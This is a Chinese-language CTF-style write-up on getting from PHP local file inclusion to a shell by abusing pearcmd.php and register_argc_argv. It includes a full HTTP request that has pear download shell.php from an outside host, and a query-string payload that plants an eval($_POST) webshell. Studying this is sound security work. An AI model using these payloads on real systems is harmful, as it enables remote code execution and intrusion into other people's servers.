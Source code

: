 ﻿﻿# 前言

也是从来没有学习过这种LFI的思路。今天晚上再复现前几天的强网杯拟态的时候遇到了这个`pearcms.php`的文件包含，进行了一波学习。

# 环境

- 安装了pear（这样才能有pearcmd.php）
- 开启了`register_argc_argv`
- 存在文件包含且可以包含后缀为php的文件且没有`open_basedir`的限制。

先说说这个pear。我就说觉得这东西为什么很眼熟，原来昨天看php底层C的目录结构的时候刚看到过。这个东西的全称叫PHP Extension and Application Repository，PHP扩展与应用仓库。Pear 仓库代码是以包（package）分区，每一个 `Pear package` 都是一个独立的项目有着自己独立的开发团队、版本控制、文档和其他包的依赖关系信息。Pear package 以 phar、tar 或 zip 发布。

默认应该是安装的：

> When using PHP, the PEAR Package Manager is already installed unless one has used the `./configure` option `--without-pear`.
>
> If one uses a version of PHP that is supplied by Unix/Linux/BSD distributors it may be necessary to manually install PEAR. Users should consult the documentation for the respective distribution in this case.

但是我发现我的lamp环境里面就没有。。。。所以自己手动装了一下：

```shell
wget http://pear.php.net/go-pear.phar
php go-pear.phar
```

可能php版本的问题，我这个php8的docker环境里面的pearcmd.php的位置在`/usr/share/pear/pearcmd.php`，一般都是在`/usr/local/lib/php/pearcmd.php`



其次就是需要开启`register_argc_argv`这个东西。这个东西之前做ctfshow的PHP特性的时候遇到过一次，如果存在php.ini的话，默认是Off。如果没有php.ini则默认是On。

PHP官方提供的镜像里面也是默认没有php.ini，所以也是默认开启了这个`register_argc_argv`：

![image-20211029193254228](利用pearcmd.php从LFI到getshell.assets/image-20211029193254228.png)




而开启了这个东西有什么用呢？开启的时候`$_SERVER[‘argv’]`就会生效。

> 1、cli模式（命令行）下
>
> 	第一个参数$_SERVER['argv'][0]是脚本名，其余的是传递给脚本的参数
>
> 2、web网页模式下
>
> 	在web页模式下必须在php.ini开启register_argc_argv配置项
> 		
> 	设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果
> 		
> 	这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]
> 		
> 	$argv,$argc在web模式下不适用



测试一下就知道：

```php
<?php
var_dump($_SERVER['argv']);
```



![image-20211029193612760](利用pearcmd.php从LFI到getshell.assets/image-20211029193612760.png)


且argv是通过+作为分隔符：

![image-20211029193708336](利用pearcmd.php从LFI到getshell.assets/image-20211029193708336.png)




# 分析

`pear`本身是一个sh程序：

```sh
root@a93acbe29c09:/usr/local/etc# cat /usr/bin/pear
#!/bin/sh

# first find which PHP binary to use
if test "x$PHP_PEAR_PHP_BIN" != "x"; then
  PHP="$PHP_PEAR_PHP_BIN"
else
  if test "/usr/bin/php" = '@'php_bin'@'; then
    PHP=php
  else
    PHP="/usr/bin/php"
  fi
fi

# then look for the right pear include dir
if test "x$PHP_PEAR_INSTALL_DIR" != "x"; then
  INCDIR=$PHP_PEAR_INSTALL_DIR
  INCARG="-d include_path=$PHP_PEAR_INSTALL_DIR"
else
  if test "/usr/share/pear" = '@'php_dir'@'; then
    INCDIR=`dirname $0`
    INCARG=""
  else
    INCDIR="/usr/share/pear"
    INCARG="-d include_path=/usr/share/pear"
  fi
fi

exec $PHP -C -q $INCARG -d date.timezone=UTC -d output_buffering=1 -d variables_order=EGPCS -d open_basedir="" -d safe_mode=0 -d register_argc_argv="On" -d auto_prepend_file="" -d auto_append_file="" $INCDIR/pearcmd.php "$@"

```

最后一行看到它调用了`pearcmd.php`。这里忽略一些细节，只需要知道，pearcmd.php中`$argv`就是通过`$_SERVER['argv']`来获取到的。

这样就通过包含`pearcmd.php`，利用`$_SERVER['argv']`来调用pear命令。





那么pear命令到底是干什么的呢？可能之前从来没有用过而且不太懂，但是既然我们是学PHP的，联想一下最常用的那个composer，就豁然开朗了。不都是php什么管理器嘛，composer就是查找指定的一个包，然后把它下载下来，还可以更新等等（联想到之前用composer下载thinkphp）。

那pear是不是也可以呢？如果pear也可以下载东西并且保存在本地的话，在我们已经有一个文件包含的情况下，下载一个恶意的php文件然后包含它不就可以利用了？



也确实是可以的，命令就是：

```shell
pear install -R /tmp http://xxxxxxx/shell.php
```

这样就可以把`shell.php`下载到`/tmp`目录下面（- R可以指定下载文件保存的目录）。



攻击一波：

```http
GET /?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://121.5.169.223:39777/shell.php HTTP/1.1
Host: 119.45.254.56:23343
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


```

返回结果：

```http
HTTP/1.1 200 OK
Date: Fri, 29 Oct 2021 11:54:20 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.3.4
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 329

downloading shell.php ...
Starting to download shell.php (23 bytes)
....done: 23 bytes
Could not get contents of package "/tmp/tmp/pear/download/shell.php". Invalid tgz file.
Download of "http://121.5.169.223:39777/shell.php" succeeded, but it is not a valid package archive
Invalid or missing remote package file
install failed

```

告诉我们下载到了`/tmp/tmp/pear/download/shell.php`，再去包含它即可getshell。



## 不出网

不出网的情况下还有别的利用姿势（相对来说也是最简单的）：

```
pear -c /tmp/.feng.php -d man_dir=<?=eval($_POST[0]);?> -s
```

查一下：

```shell
root@VM-0-6-ubuntu:~/somefile# pear help options
Options:
     -v         increase verbosity level (default 1)
     -q         be quiet, decrease verbosity level
     -c file    find user configuration in `file'
     -C file    find system configuration in `file'
     -d foo=bar set user config variable `foo' to `bar'
     -D foo=bar set system config variable `foo' to `bar'
     -G         start in graphical (Gtk) mode
     -s         store user configuration
     -S         store system configuration
     -u foo     unset `foo' in the user configuration
     -h, -?     display help/usage (this message)
     -V         version information


```

所以就相当于写配置到`/tmp/.feng.php`了，内容和文件名都可控，不好的地方可能就是如果没写好的话容易G。

```shell
?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/.feng.php+-d+man_dir=<?eval($_POST[0]);?>+-s+
```

如果没有开启短标签的话，还是下载文件比较好用。但是也是很有意思的一种利用方式了。
